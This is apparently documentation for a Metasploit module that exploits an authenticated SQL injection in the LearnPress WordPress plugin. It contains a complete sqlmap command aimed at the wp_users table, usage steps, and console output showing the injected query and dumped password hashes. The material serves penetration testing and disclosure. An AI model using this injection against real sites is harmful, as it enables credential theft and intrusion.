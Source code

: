 ## Vulnerable Application

LearnPress, a learning management plugin for WordPress,
prior to 3.2.6.8 is affected by an authenticated SQL injection via the
`current_items[]` parameter of the `post-new.php` page.

The plugin can be downloaded [here](https://downloads.wordpress.org/plugin/learnpress.3.2.6.7.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/post-new.php?post_type=lp_order' --cookie '<cookie>' --data "type=lp_course&context=order-items&context_id=32&term=+test&paged=1&lp-ajax=modal_search_items&current_items[]=1" -p "current_items[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_learnpress_sqli`
4. Do: `set username <username>`
5. Do: `set password <password>`
6. Do: `run`
7. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

## COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `3`.

### PASSWORD

The password for a user.

### USERNAME

The username for a user.

## Scenarios

### LearnPress 3.2.6.7 on Wordpress 5.4.4 on Ubuntu 20.04

```
resource (learnpress.rb)> use auxiliary/scanner/http/wp_learnpress_sqli
resource (learnpress.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (learnpress.rb)> set username admin
username => admin
resource (learnpress.rb)> set password admin
password => admin
resource (learnpress.rb)> set verbose true
verbose => true
resource (learnpress.rb)> set count 3
count => 3
resource (learnpress.rb)> run
[*] Checking /wp-content/plugins/learnpress/readme.txt
[*] Found version 3.2.6.7 in the plugin
[+] Vulnerable version detected
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(CKvFyxDg) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Encoded to (select group_concat(CKvFyxDg) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xd5,0)),ifnull(user_pass,repeat(0x49,0))) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_learnpress_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
```
